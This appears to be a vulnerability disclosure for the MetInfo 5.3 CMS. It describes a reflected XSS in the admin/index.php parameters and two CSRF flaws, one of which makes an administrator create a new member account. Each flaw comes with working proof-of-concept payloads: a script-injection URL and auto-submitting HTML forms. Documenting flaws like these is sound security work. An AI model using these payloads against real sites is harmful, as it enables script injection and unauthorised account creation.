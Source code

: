 # XSS

MetInfo5.3 application is vulnerable to Cross-Site scripting (XSS) vulnerabilities. Attackers can inject arbitrary web script or HTML via the class1 parameter or the anyid parameter to admin/index.php.

Vulnerability parameter：&class1、&anyid

Poc:
```
http://127.0.0.1/MetInfo5.3/admin/index.php?n=content&c=article_admin&a=doindex&class1=2"><script>alert(111)</script>&lang=cn&anyid=29"><script>alert(111)<%2fscript>
```
![](http://i.imgur.com/8IWwsyG.png)

# CSRF-1

MetInfo5.3 application is vulnerable to Cross-Site Request Forgery (CSRF) vulnerability. A successful CSRF attack can force the administrator to add an malicious online customer service.

Poc：
```
<html>
  <body>
    <form action="http://127.0.0.1/MetInfo5.3/admin/interface/online/delete.php?anyid=71&lang=cn&class1=" method="POST">
      <input type="hidden" name="allid" value="6&#44;" />
      <input type="hidden" name="action" value="editor" />
      <input type="hidden" name="id" value="6" />
      <input type="hidden" name="no&#95;order&#95;6" value="1" />
      <input type="hidden" name="name&#95;6" value="mm" />
      <input type="hidden" name="qq&#95;6" value="123123" />
      <input type="hidden" name="msn&#95;6" value="" />
      <input type="hidden" name="taobao&#95;6" value="mm123" />
      <input type="hidden" name="alibaba&#95;6" value="mm123" />
      <input type="hidden" name="skype&#95;6" value="" />
      <input type="hidden" name="saveorder" value="ä&#191;&#157;å&#173;&#152;" />
      <input type="hidden" name="action&#95;type" value="del" />
      <input type="hidden" name="allid" value="6&#44;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Before the attack：
![](http://i.imgur.com/l1hG2ta.png)
After the attack:
![](http://i.imgur.com/744zMBp.png)
Display on the home page:
![](http://i.imgur.com/bbW2wG1.png)

# CSRF-2

MetInfo5.3 application is vulnerable to Cross-Site Request Forgery (CSRF) vulnerability. A successful CSRF attack can force the administrator to add a member with specialized username and password.

Poc:
```
<html>
  <body>
    <form action="http://127.0.0.1/MetInfo5.3/admin/index.php?lang=cn&anyid=73&n=user&c=admin_user&a=doaddsave" method="POST">
      <input type="hidden" name="username" value="www" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="valid" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Before the attack:
![](http://i.imgur.com/xT1KItW.png)
After the attack:
![](http://i.imgur.com/XzQebmO.png)

